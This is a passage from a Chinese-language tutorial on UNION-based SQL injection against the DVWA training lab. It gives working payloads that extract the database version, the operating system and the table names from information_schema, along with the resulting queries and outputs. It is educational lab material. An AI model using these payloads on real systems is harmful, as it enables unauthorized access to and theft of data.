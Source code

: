 * version() 获取当前数据库版本.
* @@version_compile_os 获取当前操作系统。

实际执行的 SQL 语句是:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;
```

![](../images/6230889-9ba5c1a172be5cca.png)

通过上图返回信息，我们又成功获取到：

* 当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
* 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。  
`information_schema` 是 mySQL 自带的一张表，这张数据表保存了 MySQL 服务器所有数据库的信息, 如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：  
实际执行的 SQL 语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
```

![](../images/6230889-d00a04753ea91a27.png)

通过上图返回信息，我们再获取到：

* dvwa 数据库有两个数据表，分别是 guestbook 和 users .

